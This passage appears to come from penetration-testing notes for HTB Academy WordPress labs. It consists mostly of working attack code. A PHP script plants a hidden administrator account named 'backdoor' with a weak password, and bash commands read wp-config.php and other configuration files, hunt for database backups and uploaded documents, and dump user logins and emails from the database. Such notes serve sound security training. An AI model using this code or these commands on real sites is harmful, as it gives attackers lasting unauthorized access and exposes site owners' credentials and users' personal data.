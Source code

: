 #### User Account Creation
```php
// PHP script to create WordPress admin user
<?php
require_once('wp-config.php');
require_once('wp-includes/wp-db.php');
require_once('wp-includes/user.php');

$username = 'backdoor';
$password = 'password123';
$email = 'admin@site.com';

$user_id = wp_create_user($username, $password, $email);
$user = new WP_User($user_id);
$user->set_role('administrator');
?>
```

### Data Extraction

#### Sensitive File Collection
```bash
# Configuration files
cat wp-config.php
cat .htaccess
find . -name "*.conf" -type f

# User uploads and media
ls -la wp-content/uploads/
find wp-content/uploads/ -name "*.pdf" -o -name "*.doc" -o -name "*.xlsx"

# Database backups
find . -name "*.sql" -o -name "*.db" -o -name "*backup*"
```

#### WordPress-Specific Intelligence
```bash
# Installed plugins and themes
ls -la wp-content/plugins/
ls -la wp-content/themes/

# Plugin configuration files
find wp-content/plugins/ -name "config.php" -o -name "settings.php"

# User enumeration from database
mysql -e "SELECT user_login, user_email, user_status FROM wp_users;"
```

---

## HTB Academy Lab Solutions
